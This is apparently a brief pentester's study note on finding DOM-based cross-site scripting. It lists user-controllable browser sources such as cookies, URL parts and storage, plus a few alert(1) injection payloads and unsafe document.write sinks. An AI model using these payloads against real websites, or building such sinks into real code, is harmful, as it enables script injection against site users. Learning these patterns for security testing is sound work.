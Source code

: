 ## Solution
- Debug to trace :
  - premise: input and output
  - then: trying to bypass strictions

## Input
Always check the code, figure out what can be controlled by user, and what these parameter can be used.
```
var value = '<%request.getparameter("key")%>';
var value = document.cookie, url;
var value = location.search.substr(6)

document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

## output
```
<iframe src = javascript:alert(1)>
window.location.href = "javascript:alert(1)//"
document.write('<iframe src= ' + input + '>');
inside the script code: "><script>alert(1)</script>
```
- [hacktricks](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/dom-xss.md)
